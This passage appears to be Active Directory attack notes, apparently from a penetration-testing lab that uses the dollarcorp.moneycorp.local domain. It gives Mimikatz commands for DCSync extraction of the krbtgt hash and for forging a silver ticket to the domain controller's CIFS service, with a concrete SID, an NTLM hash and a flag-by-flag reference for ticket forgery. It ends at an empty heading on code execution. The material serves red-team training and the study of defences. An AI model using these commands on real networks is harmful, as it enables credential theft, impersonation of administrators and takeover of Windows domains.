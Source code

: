 To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt /all"'
```

Using the DCSync option needs no code execution (no need to run `Invoke-Mimikatz`) on the target DC. 

## Silver Ticket
A silver ticket is a valid Kerberos Ticket Granting Service TGS ticket that has been forged (the golden ticket is the TGT). It is encrypted and signed by the NTLM hash of the service account; whereas the golden ticket is signed by the hash of the `krbtgt`.  The Silver Ticket scope is limited to whatever service is targeted on a specific server.

The TGS is forged, so no associated TGT, meaning the DC is never contacted. Any event logs are on the targeted server.

Using the hash of the Domain Controller computer account, the following command provides access to shares on the DC.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"' 
```
A similar command can be used for any other service on a machine, such as HOST, RPCSS, WSMAN, and more.

**Mimikatz Silver Ticket Command Reference**
- `kerberos::golden` Name of the module (there is no Silver module!)
- `/user:Administrator` - Username for which the TGT is generated
- `/domain` - the fully qualified domain name.
- `/sid:S-1-5-21-1874506631-3219952063-538504511` - the SID of the domain.
- `/target:dcorp-dc.dollarcorp.moneycorp.local` - Target server FQDN
- `/rc4:6f5b5acaf7433b3282ac22e21e62ff22` - NTLM (RC4) hash of the service account. Use /aes128 and /aes256 for using AES keys.
- `/groups:512` - group RIDs the user is a member of (the first is the primary group) default: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).
- `/service:cifs` - the kerberos service running on the target server. This is the Service Principal Name class (or type) such as cifs, http, mssql.
- `/ticket` (optional) - provide a path and name for saving the Golden Ticket file to for later use.
- `/ptt` - as an alternate to `/ticket` - use this to immediately inject the forged ticket into memory for use.
- `/id:500` (optional) - user RID. Mimikatz default is 500 (the default Administrator account RID).
- `/startoffset:0` (optional) - the start offset when the ticket is available (generally set to -10 or 0 if this option is used). Mimikatz Default value is 0.
- `/endin:600` (optional) - ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
- `/renewmax:10080` (optional) - maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).

### Code execution using Silver Tickets
